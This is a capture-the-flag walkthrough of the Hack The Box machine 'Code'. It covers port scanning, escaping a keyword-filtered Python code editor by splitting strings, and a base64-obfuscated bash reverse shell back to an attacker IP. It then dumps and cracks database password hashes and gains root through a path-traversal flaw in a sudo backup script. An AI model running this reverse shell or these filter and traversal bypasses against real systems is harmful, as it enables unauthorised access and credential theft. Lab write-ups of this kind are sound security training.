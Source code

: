 ```yaml
---
name: Code
difficulty: easy
os: linux
platform: htb
date: 2025/07/01

img: https://labs.hackthebox.com/storage/avatars/55cc3528cd7ad96f67c4f0c715efe286.png
---
```


## Enumeration

### Port Scan

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```

We can see that port 22 is open, which is the SSH service.

Now we will scan for all tcp, open and filtered, ports

```bash
nmap -p- -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPortsFiltered
```

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63
```

We can see that port 5000 is also open.

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,5000 -sCV 10.10.11.62 -o targeted
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User Exploitation

When accessing `http://10.10.11.62` it shows up a python code editor. We can create a new file and write some Python code in it. The web application allows us to execute the code we write.

We write the following Python code to do ls for `/` and `/home`:

```python
oas = sys.modules['o'+'s']
print(oas.listdir('.'))

print(oas.listdir('/'))
print(oas.listdir('/home'))
#print(oas.listdir('/ro'+'ot'))
```

```
['app.py', 'static', 'templates', '__pycache__', 'instance']
['bin', 'lib64', 'proc', 'run', 'sbin', 'usr', 'lib32', 'home', 'var', 'srv', 'libx32', 'boot', 'tmp', 'lost+found', 'lib', 'root', 'sys', 'media', 'mnt', 'etc', 'dev', 'opt']
['martin', 'app-production']
```

Note that the system blocks some strings like `os`, `import` or `root` in the code editor, so we have to use other ways to access the modules and directories.
As we can see, we can find the home directory of the user `martin` and the `app-production` directory. We do not have access to `/root`

We dont have access to `/home/martin`

We can do ls on the `app-production` directory:

```python
oas = sys.modules['o'+'s']
print(oas.listdir('/home/app-production'))
```

```
['user.txt', '.local', '.sqlite_history', '.profile', '.python_history', '.cache', '.bash_logout', '.bash_history', '.bashrc', 'app']
```

We can see that we have a file called `user.txt` in the `app-production` directory. We can read it using the following code:

```python
wd = sys.modules['subpr'+'ocess']
output = wd.check_output(['cat', '/home/app-production/user.txt'])
print(output.decode())
```

```
user flag value
```

## Machine Access

We can access the machine using a reverse shell. We can use the following Python code

```python
a = sys.modules['subp' + 'rocess']
output = a.check_output('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42O' +
                         'S80NDQ0IDA+JjE= | base64 -d | bash', shell=True)
print(output.decode())
```

This code will execute a reverse shell command that connects back to our machine. Make sure to set
up a listener on your machine to catch the reverse shell

```bash
nc -lvnp 4444
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We can access the web page source code at app.py and we find the database access:

```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```

We also see that there is a table called `USER` in the database. We can use the credentials to access the database and retrieve the user information.
We can use the `sqlite3` command-line tool to access the SQLite database.

```bash
sqlite3 instance/database.db "SELECT * FROM USER;"
```

```
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|test|c06db68e819be6ec3d26c6038d8e8d1f
```

We can see that there are three users in the database: `development`, `martin`, and `test`. It looks like the passwords are hashed.
We can use `https://crackstation.net/` to crack the hashes. After cracking the hashes, we find the following credentials:

```
development:development
martin:nafeelswordsmaster
test:test12345
```

This allows us to access the machine as the user `martin` with the password `nafeelswordsmaster` through SSH.

```bash
ssh martin@10.10.11.62
```

## Root Exploitation

Once we have access to the user `martin`, we can check what sudo privileges the user has.

```bash
sudo -l
```

```
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

As we can see, the user `martin` has the ability to run the script `/usr/bin/backy.sh` as root without a password. We can check the contents of the script to see if it is vulnerable or misconfigured.

This script is a script that backups a directory. We can pass as parameter this json configuration file

```
{
  "destination": "/home/martin/test/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root"
  ],
  "exclude": [
    "test"
  ]
}
```

Note that the `directories_to_archive` field contains a path to `/var/....//root`, because the script removes `../` from the path, it will end up being `/var/../root`, which is the root directory `/root`.

And then run the script as root:

```bash
sudo /usr/bin/backy.sh /home/martin/task.json
```

It will create a backup of the `/root` directory the `/home/martin/test/`. We can extract the backup and find the root flag:

```bash
tar -xvjf code_var_.._root_2025_July.tar.bz2
cat root/root.txt
```

```
root flag value
```

## Conclusion

This walkthrough demonstrates how to exploit a vulnerable web application to gain access to the user and root flags. We used Python code execution to read files and execute commands, and we exploited a misconfigured backup script to gain root access. This highlights the importance of secure coding practices and proper configuration management in web applications.
This walkthrough is for educational purposes only. Always ensure you have permission to test and exploit systems.
